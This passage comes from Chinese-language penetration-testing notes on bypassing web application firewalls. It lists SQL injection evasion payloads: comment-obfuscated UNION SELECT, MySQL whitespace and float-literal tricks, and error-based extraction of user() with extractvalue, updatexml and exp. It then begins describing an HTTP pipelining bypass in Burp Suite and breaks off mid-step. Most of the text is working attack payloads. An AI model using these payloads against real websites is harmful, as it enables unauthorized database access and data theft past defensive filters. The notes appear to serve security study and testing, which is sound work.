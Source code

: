 ```
Union 注入时 `union select 1 from 2` 替换成 `union/*fuckyou//*a*//*!select*/1/*fuckyou//*a*//*!from*/2`

order by 测试时直接把空格换成 `/**//**/`
```

**空白符绕过**

1. 正则表达式空白符: %09,%0a,%0b,%0D,%20
2. mysql空白符: %09,0A,%0b,%0D,%20,%0C,%A0,/**/

**浮点数词法解析**

1. select * from xxx where id=8E0union select 1,2,3,4,5,6,7E0from xxxx
2. select * from xxx where id=8.0union select 1,2,3,4,5,6,7.0from xxxx
3. select * from xxx where id=8\Nunion select 1,2,3,4,5,6,7 \Nfrom xxxx

**利用不常用报错函数绕过**

1. select extractvalue(1,concat(1,user()));
2. select updatexml(1,concat(1,user()),1);
3. select exp(~(select * from(select user())a));

## 分段传输

**利用 pipline 绕过**
- **原理**

    http 协议是由 tcp 协议封装而来，当浏览器发起一个 http 请求时，浏览器先和服务器建立起连接 tcp 连接，然后发送 http 数据包（即我们用 burpsuite 截获的数据），其中包含了一个 Connection 字段，一般值为 close，apache 等容器根据这个字段决定是保持该tcp连接或是断开。当发送的内容太大，超过一个 http 包容量，需要分多次发送时，值会变成 keep-alive，即本次发起的 http 请求所建立的 tcp 连接不断开，直到所发送内容结束 Connection 为 close 为止。

- **测试**

    关闭 burp 的 Repeater 的 Content-Length 自动更新，如图所示，点击红圈的 Repeater 在下拉选项中取消 update Content-Length 选中。这一步至关重要！！！
    ![image](../../../assets/img/安全/笔记/绕waf总结/1.png)

    burp 截获 post 提交

    `id=1 and 1=1` 会被 waf，将数据包复制一遍，如图
